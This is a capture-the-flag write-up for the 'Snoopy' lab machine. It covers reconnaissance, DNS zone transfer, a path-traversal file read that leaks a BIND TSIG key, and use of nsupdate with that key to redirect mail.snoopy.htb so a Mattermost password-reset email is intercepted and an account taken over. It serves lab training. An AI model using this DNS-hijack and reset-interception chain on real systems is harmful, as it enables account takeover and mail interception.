## RUSTSCAN:

```Bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ee6bcec5b6e3fa1b97c03d5fe3f1a16e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEwa6lTzS8uZRb7EebEXbLkAU0FpJ8k9KO+YwTTeEE7E3VgGZr4vOP4EOZce1XDgwR18wt0WOCiYz6pi6M4y4Lw=
|   256 545941e1719a1a879c1e995059bfe5ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZTgpF2zR6Xamvdn+NyIUGFtq7hXBd7RK3SM00IMQht
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.18.12-0ubuntu0.22.04.1 (Ubuntu Linux)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
|_http-title: SnoopySec Bootstrap Template - Index
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
```

* * *

## SSH:

As usual SSH is not our first attack vector as version is still new with no know exploit out in the wild so far; bruteforce will not be contemplated in the resolutions of this machine.

* * *

## DNS:

Moving along with DNS service(port 53) checking from main website we may get the main URL on the website:


Adding that hostname in our hosts file will make our life easier. Now what we can do is try to do some DNS enumeration to get more informations out of it, and initally we can try to get as much records as possible:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dig any snoopy.htb @10.10.11.212

; <<>> DiG 9.18.12-1-Debian <<>> any snoopy.htb @10.10.11.212
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 34150
;; flags: qr aa rd; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 3
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; COOKIE: f782851775c313ac010000006458b18597cf44da022e85ad (good)
;; QUESTION SECTION:
;snoopy.htb.                    IN      ANY

;; ANSWER SECTION:
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.

;; ADDITIONAL SECTION:
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10

;; Query time: 29 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Mon May 08 10:23:34 CEST 2023
;; MSG SIZE  rcvd: 171
```

But it haven't unveil something so we can try to done a zone transfer as well:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dig axfr snoopy.htb @10.10.11.212

; <<>> DiG 9.18.12-1-Debian <<>> axfr snoopy.htb @10.10.11.212
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
;; Query time: 29 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Mon May 08 10:29:15 CEST 2023
;; XFR size: 11 records (messages 1, bytes 325)
```

Ok now are we talking, adding those subdomains to our hosts file eventually only made us thru one subdomaind aka mm.snoopy.htb which is basically the Mattermost istance:



All the others were pointing to the main site which could be cause the addresses are only available from the "inside" or not working at all.

To be on the "safe" side I decided to run FFUF and fuzz for possible subdomains i case something slipped under radar:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://snoopy.htb' -H 'Host:FUZZ.snoopy.htb' -fl 481

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://snoopy.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.snoopy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 481
________________________________________________

[Status: 200, Size: 3132, Words: 141, Lines: 1, Duration: 35ms]
    * FUZZ: mm

:: Progress: [19966/19966] :: Job [1/1] :: 1162 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

* * *

## HTTP:

We can't login into Mattermost without proper credentials so I we try to sign up unfortunately we can't without an Invitation link:


Moving back to main website I decided to enumerate the webdirectories and found following directories:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://snoopy.htb/"

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_snoopy.htb/__23-05-08_10-44-54.txt

Target: http://snoopy.htb/

[10:44:54] Starting:
[10:44:59] 200 -   16KB - /about.html
[10:45:06] 301 -  178B  - /assets  ->  http://snoopy.htb/assets/
[10:45:06] 403 -  564B  - /assets/
[10:45:11] 200 -   10KB - /contact.html
[10:45:15] 200 -   11MB - /download.php
[10:45:16] 200 -   11MB - /download
[10:45:16] 301 -  178B  - /forms  ->  http://snoopy.htb/forms/
```

That download folder seems interesting , and indeed it downloaded something:



I don't think we have to care that much about that video but the pdf seems more interesting and checking thru a exif analyzer can shows us the generator(good vector for future analisys if needed!!!):

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# exiftool announcement.pdf
ExifTool Version Number         : 12.57
File Name                       : announcement.pdf
Directory                       : .
File Size                       : 31 kB
File Modification Date/Time     : 2023:04:20 17:52:24+02:00
File Access Date/Time           : 2023:05:08 10:49:19+02:00
File Inode Change Date/Time     : 2023:05:08 10:48:24+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 2
Creator                         : Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) obsidian/1.1.16 Chrome/106.0.5249.199 Electron/21.4.1 Safari/537.36
Producer                        : Skia/PDF m106
Create Date                     : 2023:04:20 17:07:33+00:00
Modify Date                     : 2023:04:20 17:07:33+00:00
```

But again opening the pdf didn't show anything interesting so far:



Ok again moving back on main website seems like we can get a list of possible usernames?


```Text
cschultz@snoopy.htb
sbrown@snoopy.htb
hangel@snoopy.htb
lpelt@snoopy.htb
```

And lastly a possinble mailserver?



But as mentioned is not working; then I see what it could be a possible LFI?


I catched the request with BurpSuite but seems like LFI is not working?



Then I tried to send an email and I get an error in the PHP code: Error: Unable to load the "PHP Email Form" Library! Then I decided to come back to LFI and I run a FFUF to fuzz for LFI and apparently it's feasible with double "slashes & dots":



Then running the payload seems like we get something out of it:





basically we can download the zip file with those LFI we are pointing to.. Now is where all the fun begins.



Here I will play around and try all the files needed in order to get it working, most likely won't add all the pictures otherwise it will be too big...

I will start by downloading the nginx.conf file as start since we know it's the webserver used by the system, and checking we can then check for available websites:

```Bash
##
        # Virtual Host Configs
        ##

        include /etc/nginx/conf.d/*.conf;
        include /etc/nginx/sites-enabled/*;
}
```

And then getting the default site from "sites-enabled":

```Bash
root /var/www/html;

        # Add index.php to the list if you are using PHP
        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                # First attempt to serve request as file, then
                # as directory, then fall back to displaying a 404.
                try_files $uri $uri/ =404;
        }

        location ~ ^/download$ {
                alias /var/www/html/download.php;
                fastcgi_pass unix:/var/run/php/php8.1-fpm.sock;
                fastcgi_param SCRIPT_FILENAME $request_filename;
                include fastcgi_params;
        }
```

so far i downloaded those files but nothing came out so I guess we have to search for other files:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/press_package]
└─# tree
.
├── etc
│   ├── nginx
│   │   ├── nginx.conf
│   │   └── sites-enabled
│   │       └── default
│   └── passwd
├── proc
│   └── self
│       └── cmdline
└── var
    └── www
        └── html
            ├── download.php
            └── forms
                └── contact.php

10 directories, 6 files
```

Then I moved to DNS and found following:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/press_package]
└─# cat etc/bind/named.conf
named.conf        named.conf.local
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/press_package]
└─# cat etc/bind/named.conf.local
//
// Do any local configuration here
//

// Consider adding the 1918 zones here, if they are not used in your
// organization
//include "/etc/bind/zones.rfc1918";

zone "snoopy.htb" IN {
    type master;
    file "/var/lib/bind/db.snoopy.htb";
    allow-update { key "rndc-key"; };
    allow-transfer { 10.0.0.0/8; };
};
```

Eventually this will shows us same as we got from Zone transfer from DNS at the beginnig:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/press_package]
└─# cat var/lib/bind/db.snoopy.htb
$ORIGIN .
$TTL 86400      ; 1 day
snoopy.htb              IN SOA  ns1.snoopy.htb. ns2.snoopy.htb. (
                                2022032612 ; serial
                                3600       ; refresh (1 hour)
                                1800       ; retry (30 minutes)
                                604800     ; expire (1 week)
                                86400      ; minimum (1 day)
                                )
                        NS      ns1.snoopy.htb.
                        NS      ns2.snoopy.htb.
$ORIGIN snoopy.htb.
$TTL 86400      ; 1 day
mattermost              A       172.18.0.3
mm                      A       127.0.0.1
ns1                     A       10.0.50.10
ns2                     A       10.0.51.10
mattermost              A       172.18.0.3
postgres                A       172.18.0.2
provisions              A       172.18.0.4
www                     A       127.0.0.1
```

And here I asked around for some tips and apparently that config file I've found on Bind having that security key should help me to edit DNS entries:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/press_package]
└─# cat etc/bind/named.conf
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the
// structure of BIND configuration files in Debian, *BEFORE* you customize
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};
```

here a guide on how to use it: https://tecadmin.net/configure-rndc-for-bind9/

Edit: Another dude tipsed me to use this one instead https://linux.die.net/man/8/nsupdate

Which means that if we send following commands we can edit the dns on the victim:

```Bash
//First we will ship the security key from DNSSec
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nsupdate -y "hmac-sha256:rndc-key:BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA="

//Set the target(Victim DNS)
> server 10.10.11.212

//Add the record to point to our IP(example taken from the guide link)
>  update add mail.snoopy.htb 86400 A 10.10.14.7

//Profit!
> send
```

When I tried yesterday I tested with NC and seems like connection were closed after email was sent(seems like only PR is working others no!) but I think I have to setup a mailserver to get the email.

Now googling around I found that Python3 have a module smtpd that serves that function of debugging smtp server: https://realpython.com/python-send-email/#option-2-setting-up-a-local-smtp-server

So first I setup a listening SMTP server on our IP in Debug mode:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# python3 -m smtpd -c DebuggingServer -n localhost:25
```

Then we do same magic trick on Dynamic DNS and point mail.snoopy.htb to our IP.

After several try and catch I made it work, for some reason the request had to be send via burp and not from Webgui.

First i catched the request in burp:



Then I setup the SMTP server as usual:



Then I change the DYN DNS to point to our machine:



And then we should be able to catch the request in our smtp server listening on port 25:

```Bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 09 May 2023 09:48:50 GMT
Content-Type: application/json
Content-Length: 15
Connection: close
Permissions-Policy: 
Referrer-Policy: no-referrer
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Request-Id: cnaazq18q3bgdjairbb7a59zpa
X-Version-Id: 7.9.0.7.9.0.c7ce78937711597df2938cf8dd2034c7.false

{"status":"OK"}
```

And now we have the link:

```Bash
---------- MESSAGE FOLLOWS ----------
mail options: ['BODY=8BITMIME']
b'MIME-Version: 1.0'
b'From: "No-Reply" <no-reply@snoopy.htb>'
b'Auto-Submitted: auto-generated'
b'Reply-To: "No-Reply" <no-reply@snoopy.htb>'
b'Date: Tue, 09 May 2023 09:48:50 +0000'
b'To: cschultz@snoopy.htb'
b'Subject: [Mattermost] Reset your password'
b'Content-Transfer-Encoding: 8bit'
b'Precedence: bulk'
b'Message-ID: <ziyot4spmywukrz8-1683625730@mm.snoopy.htb>'
b'Content-Type: multipart/alternative;'
b' boundary=dda6759f6b937ac0b9d5f24eb9868520ecf20641f19b290f52c584c60ac7'
b'X-Peer: 10.10.11.212'
b''
b'--dda6759f6b937ac0b9d5f24eb9868520ecf20641f19b290f52c584c60ac7'
b'Content-Transfer-Encoding: quoted-printable'
b'Content-Type: text/plain; charset=UTF-8'
b''
b'Reset Your Password'
b'Click the button below to reset your password. If you didn=E2=80=99t reques='
b't this, you can safely ignore this email.'
b''
b'Reset Password ( http://mm.snoopy.htb/reset_password_complete?token=3Du3551='
b'aw8gqjis5ki98wwkttqbomxif6bahkk3aa6yz6ocoo4uoem79u8hba9p8uk )'
b''
b'The password reset link expires in 24 hours.'
```

Here the code is a bit messy but that =' is a separator so i guess the real url will be something like:

```Bash
http://mm.snoopy.htb/reset_password_complete?token=3Du3551aw8gqjis5ki98wwkttqbomxif6bahkk3aa6yz6ocoo4uoem79u8hba9p8uk
```

And catching the whole request will be like this:



After several tries I decided to save the export of the whole message as msg and open it with Thunderbird:



And clicking on the reset password field it resetted users password:


And we are in baby!

